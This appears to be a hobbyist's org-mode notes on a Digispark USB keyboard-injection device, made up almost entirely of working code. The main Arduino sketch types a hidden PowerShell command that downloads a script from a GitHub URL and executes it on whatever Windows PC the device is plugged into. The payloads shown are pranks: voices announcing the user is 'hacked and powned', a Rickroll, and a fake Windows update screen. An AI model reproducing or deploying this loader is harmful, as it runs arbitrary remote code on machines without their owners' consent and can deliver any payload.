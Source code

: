 #+TITLE: My Digispark playground
#+auto_tangle: t


* :toc:
- [[#about][About]]
- [[#my-current-digispark-ino-script-and-powershell-payload][My current Digispark .ino script and Powershell payload]]
  - [[#digispark-script-powershellino][Digispark script (Powershell.ino)]]
  - [[#my-payload-scriptps1][My payload (script.ps1)]]
- [[#old-files][Old files]]
  - [[#digispark-scripts][Digispark scripts]]
  - [[#payloads][Payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* My current Digispark .ino script and Powershell payload

** Digispark script (Powershell.ino)

A script that will open powershell and run a payload from a server. The powershell script "script.ps1" can be found in the code block below the next. When the Powershell.ino script is executed the red led is switched on and the Digispark can be removed.

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

** My payload (script.ps1)
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1
# Source URL
$url ="https://www.gnu.org/licenses/old-licenses/gpl-2.0.txt"
# Destation file
$dest = "c:\temp\gpl.txt"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest
# Read the contents of the text file into a variable
$text = Get-Content -Path $dest -Raw
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 120
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
#Womans voice
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("yo yo yo sheeple")
#Mans voice
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right?")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Oh yes indeed, hacked and powned. Wave to the camera sheeple!")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("yeah they are checking the camera!")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("whahaha")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Ni nano ninei. Just warming up my vocal chords. I will give a speech to you soon but i'm gonna download some files first.")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Hey, you found the GPL. Nice. Go ahead and bore the silly sheeple! Bye the way, sheeple, please log out when you leave your pc, otherwise it can be seriously compromised.")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak($text)

#+end_src


* Old files

** Digispark scripts

*** Rickroll

#+begin_src C
 //This DigiSpark script opens up Rick Astley's - Never Gonna Give You Up and also a fake Windows update screen and then maximizes it using F11
#include "DigiKeyboard.h"
void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("https://youtu.be/dQw4w9WgXcQ?t=43s");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(3000);
  DigiKeyboard.print("http://fakeupdate.net/win10ue");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_F11);
  //Finished. Now show a red LED to indicate the the payload is deployed
  digitalWrite(1, HIGH);
  for(;;){ /*empty*/ }
}
#+end_src


** Payloads
*** Imperial March on buzzer
Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src


*** Talk to user (two voices) and download textfile
#+begin_src shell
# Source URL
$url ="https://www.gnu.org/licenses/old-licenses/gpl-2.0.txt"
# Destation file
$dest = "c:\temp\gpl.txt"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest
# Read the contents of the text file into a variable
$text = Get-Content -Path $dest -Raw
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 120
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
#Womans voice
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("yo yo yo sheeple")
#Mans voice
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right?")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Oh yes indeed, hacked and powned. Wave to the camera sheeple!")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("yeah they are checking the camera!")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("whahaha")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Ni nano ninei. Just warming up my vocal chords. I will give a speech to you soon but i'm gonna download some files first.")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Hey, you found the GPL. Nice. Go ahead and bore the silly sheeple! Bye the way, please log out when you leave your pc, otherwise it can be seriously compromised.")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak($text)

#+end_src

